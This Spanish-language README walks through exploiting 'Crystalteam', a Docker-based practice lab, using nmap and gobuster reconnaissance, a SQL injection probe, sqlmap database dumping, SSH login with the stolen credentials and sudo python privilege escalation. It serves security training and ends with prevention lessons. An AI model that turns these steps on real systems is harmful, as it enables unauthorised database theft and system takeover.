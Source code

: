 # 🖥️ **Máquina: Crystalteam**  
🔹 **Dificultad:** Fácil  
📌 **Descripción:**  
Crystalteam es una máquina vulnerable basada en Docker, diseñada para poner a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Su enfoque principal es la identificación y explotación de vulnerabilidades en consultas MySQL para obtener acceso no autorizado a la base de datos y extraer información sensible.  

📢 **Agradecimientos:** Gracias a [DockerLabs](https://dockerlabs.es) por proporcionar *scripts* y bases que facilitaron la creación de esta máquina.  

---

## 🎯 **Objetivo**  
- Identificar y explotar fallos de seguridad en la página web **Certificación** mediante **inyección SQL**.  
- Comprender el impacto real de estas vulnerabilidades y cómo prevenirlas.  

---

## 🚀 **Despliegue de la Máquina Backend en DockerLabs**  

### 1️⃣ **Descargar el Archivo**  
Descarga el archivo desde el siguiente enlace:  

🔗 [Crystalteam Docker Machine](https://drive.google.com/drive/folders/1rmXS7t-rqtLrRHcFd15-Sv8ujptn4fpT?usp=sharing)  

### 2️⃣ **Ejecutar el Despliegue Automático**  
Ejecuta el siguiente comando para desplegar la máquina en Docker:  

```bash
bash auto_deploy.sh crystalteam.tar
```
Una vez iniciada, comprueba la conexión con:  

```bash
ping -c4 172.17.0.2
```

![Máquina Backend](/Img/Docker.jpeg)

### 3️⃣ **Reconocimiento Inicial con Nmap**  
Realizamos un escaneo de puertos con:  

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Extraemos los puertos abiertos con:  

```bash
extracPorts allPorts.txt
```

Luego, realizamos un análisis detallado de los servicios en ejecución:  

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

📌 **Resultado:** Identificamos el puerto **22 (SSH)** y el **80 (HTTP)**, lo que nos sugiere que hay un sitio web corriendo.  

![Máquina Backend](/Img/Puertos.jpeg)

---

## 🔍 **Enumeración del Sitio Web**  

Editamos el archivo de *hosts* para facilitar el acceso:  

```bash
nano /etc/hosts
```

Recopilamos información con **WhatWeb** para detectar tecnologías usadas:  

```bash
whatweb 172.17.0.2
```

![Máquina Backend](/Img/whatweb.jpeg)

Al ingresar a la página web, encontramos un **formulario de inicio de sesión y registro**.  

![Máquina Backend](/Img/index.jpeg)  

![Máquina Backend](/Img/ad.jpeg)  

Para descubrir directorios ocultos, utilizamos **Gobuster**:  

```bash
gobuster dir -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt
```

Para buscar subdominios:  

```bash
gobuster vhost -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 | grep -v "402"
```

📌 **Resultado:** No se encontraron subdominios o directorios relevantes.  

![Máquina Backend](/Img/domi.jpeg)  

![Máquina Backend](/Img/php.jpeg)  

---

## 🔥 **Explotación - Inyección SQL**  

Probamos inyección SQL en el campo de usuario con:  

```sql
admin'
```

📌 **Resultado:** Se genera un **error de base de datos**, confirmando la vulnerabilidad.  

![Máquina Backend](/Img/in.jpeg)  

![Máquina Backend](/Img/error.jpeg)  

Usamos **Burp Suite** para interceptar la solicitud y guardarla en un archivo `.req`.  

Ejecutamos **SQLMap** para extraer datos sensibles:  

```bash
sqlmap -r peticione.req --level=5 --risk=3 --dump
```

![Máquina Backend](/Img/sql.jpeg)  

📌 **Resultado:** Encontramos una base de datos llamada **inicio**, con nombres de usuario y contraseñas.  

![Máquina Backend](/Img/Tabla.jpeg)  

Usamos las credenciales para intentar acceder por **SSH**:  

```bash
ssh alejandro@172.17.0.2 -p 22
```

📌 **Acceso concedido como usuario "alejandro".**  

![Máquina Backend](/Img/ssh.jpeg)  

---

## 🚀 **Escalada de Privilegios**  

Listamos permisos con:  

```bash
sudo -l | grep python
```

📌 **Resultado:** Python puede ejecutar comandos como **root**.  

Ejecutamos el siguiente comando para leer el archivo `redflag.txt`:  

```bash
sudo python3 -c "print(open('redflag.txt').read())"
```

![Máquina Backend](/Img/root.jpeg)  

📌 **Resultado:** ¡Hemos obtenido la *redflag*! 🎉  

Para verificar acceso como *root*, ejecutamos:  

```bash
su -
```

![Máquina Backend](/Img/ter.jpeg)  

📌 **Resultado:** **Acceso total a la máquina.**  

---

## 🏆 **Conclusión**  

🔹 **Vulnerabilidades explotadas:**  
✅ Inyección SQL (SQLi) para obtener credenciales.  
✅ Uso de credenciales expuestas para acceder por SSH.  
✅ Escalada de privilegios mediante Python.  

🔹 **Lecciones aprendidas:**  
🚨 **No** concatenar consultas SQL sin sanitizar entradas.  
🔐 Implementar **hashing de contraseñas** en la base de datos.  
📛 Restringir permisos innecesarios a usuarios del sistema.  

💡 **¿Te gustaría probar esta máquina?** Descárgala y cuéntame tu experiencia. 🚀  

